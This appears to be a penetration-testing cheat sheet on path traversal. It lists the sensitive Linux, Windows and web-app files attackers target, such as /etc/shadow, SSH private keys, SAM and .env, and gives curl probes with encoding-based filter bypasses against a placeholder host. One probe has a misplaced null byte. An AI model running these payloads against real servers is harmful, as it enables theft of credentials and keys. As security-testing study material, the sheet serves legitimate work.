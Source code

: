 # Vulnerability - File Inclusion

## Path Traversal
- Also known as Directory traversa
- Allows an attacker to read operating system resources, such as local files on the server running an application.

### Linux — common files to test
- **`/etc/passwd`** — system user accounts (no password hashes on modern systems). **Sensitivity:** Medium.  
- **`/etc/shadow`** — password hashes for users (normally privileged). **Sensitivity:** Critical.  
- **`/etc/issue`** — system banner (fingerprinting). **Sensitivity:** Low.  
- **`/proc/version`** — kernel version (fingerprinting). **Sensitivity:** Low.  
- **`/etc/hosts`** — local hostname mappings. **Sensitivity:** Low.  
- **`/etc/ssh/sshd_config`** — SSH server configuration (may reveal ports/options). **Sensitivity:** High.  
- **`/root/.ssh/id_rsa`** (or `~/.ssh/id_rsa` for users) — private SSH keys. **Sensitivity:** Critical.  
- **`/root/.bash_history`** (or users' histories) — shell history, may contain secrets/commands. **Sensitivity:** High.  
- **`/var/log/auth.log`, `/var/log/secure`** — authentication logs. **Sensitivity:** High.  
- **`/var/log/apache2/access.log`, `/var/log/nginx/access.log`** — web server logs (may contain tokens, session IDs). **Sensitivity:** Medium → High.  
- **`/var/log/messages`, `/var/log/syslog`, `/var/log/dmesg`** — general system logs (useful for enumeration). **Sensitivity:** Medium.  
- **`/etc/cron*`, `/var/spool/cron/crontabs`** — cron jobs (may reveal scripts or credentials). **Sensitivity:** High.  
- **`/etc/mysql/my.cnf`, /etc/postgresql/*/pg_hba.conf** — DB configs (may include credentials or connection info). **Sensitivity:** High.  
- **`/var/www/html/.env`, /var/www/app/.env, */.env`** — application environment variables (often contain DB credentials, API keys). **Sensitivity:** Critical.  
- **Application config files** (e.g., `config.php`, `settings.php`) — may include DB credentials, salts, API keys. **Sensitivity:** High.  
- **`/etc/selinux/config`** — SELinux policy info. **Sensitivity:** Low → Medium.  
- **Backup files** (e.g., `/etc/passwd-`, `config.php~`, `backup.sql`) — may contain sensitive copies. **Sensitivity:** Medium → High.

### Windows — common files to test
- **`C:\boot.ini`** — legacy boot configuration (older Windows versions). **Sensitivity:** Low.  
- **`C:\Windows\win.ini`** — legacy configuration file (fingerprinting). **Sensitivity:** Low.  
- **`C:\Windows\System32\config\SAM`** — local SAM database (contains account hashes; normally protected). **Sensitivity:** Critical.  
- **`C:\Windows\System32\config\SYSTEM`, `... \SOFTWARE`** — registry hives. **Sensitivity:** Critical.  
- **`C:\Users\Administrator\.ssh\id_rsa`** or `C:\Users\<user>\.ssh\id_rsa` — private SSH keys. **Sensitivity:** Critical.  
- **`C:\Users\<user>\AppData\Roaming\*`** — application configs and possible credentials. **Sensitivity:** Medium → High.  
- **Web app configs** (`C:\inetpub\wwwroot\.env`, `web.config`, `appsettings.json`) — may contain connection strings and secrets. **Sensitivity:** Critical / High.  
- **DB/service configs** (`C:\ProgramData\MySQL\my.ini`, `C:\Program Files\*\config.ini`) — service configuration and potential secrets. **Sensitivity:** High.  
- **Windows event logs** (`C:\Windows\System32\winevt\Logs\Application.evtx`, `Security.evtx`) — event data for forensics/enum. **Sensitivity:** Medium → High.  
- **IIS logs** (`C:\inetpub\logs\LogFiles\W3SVC*\u_ex*.log`) — web logs (may include sensitive request data). **Sensitivity:** Medium.  
- **User documents** (`C:\Users\<user>\Documents\*`) — files that may contain secrets. **Sensitivity:** Medium → High.  
- **Scheduled tasks** (`C:\Windows\Tasks`, `C:\Windows\System32\Tasks`) — tasks and referenced scripts (may run with elevated privileges). **Sensitivity:** High.

### Web application & framework files (both OS)
- **`.env`, `config.php`, `wp-config.php`** — environment variables and DB credentials for apps and CMS. **Sensitivity:** Critical.  
- **`config/*.yml`, app config files (e.g., `parameters.yml`)`** — app configuration files for frameworks (Symfony, Rails). **Sensitivity:** High.  
- **`WEB-INF/web.xml`, WEB-INF/classes`** — Java webapp configuration and properties. **Sensitivity:** High.  
- **Uploads and users' files** (`/uploads/*`) — can expose user content or previously uploaded sensitive files. **Sensitivity:** Medium → High.  
- **Backups left in webroot** (`backup.zip`, `dbbackup.sql`, `config.bak`) — commonly exposed sensitive data. **Sensitivity:** High.

### Basic curl probes
```bash
# Direct traversal (Linux)
curl -si "http://TARGET/index.php?lang=../../../../etc/passwd"

# Trailing slash trick (some filters block exact filename)
curl -si "http://TARGET/index.php?lang=/etc/passwd/"

# Null byte (legacy/old targets; often ineffective on modern stacks)
curl -si "http://TARGET/index.php?lang=/etc/passwd%00"

# URL-encoded
curl -si "http://TARGET/index.php?lang=%2Fetc%2Fpasswd"

# Double-encoded
curl -si "http://TARGET/index.php?lang=%252Fetc%252Fpasswd"%00

# Mixed encodings / dot-variants
curl -si "http://TARGET/index.php?lang=..%2F..%2F..%2F..%2Fetc%2Fpasswd"
curl -si "http://TARGET/index.php?lang=.%2F.%2F.%2F.%2Fetc%2Fpasswd"
```
### Encodings & weird separators

```bash
# Backslash (Windows) encoded
curl -si "http://TARGET/index.php?lang=..%5C..%5C..%5C..%5CWindows%5Cwin.ini"

# Overlong / Unicode variants (may bypass naive filters)
curl -si "http://TARGET/index.php?lang=%C0%AE%C0%AE%2F%C0%AE%C0%AE%2Fetc%2Fpasswd"

# UTF-8 percent-encoding of dots/slashes
curl -si "http://TARGET/index.php?lang=%2e%2e%2f%2e%2e%2fetc%2fpasswd"
```

Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#url-encoding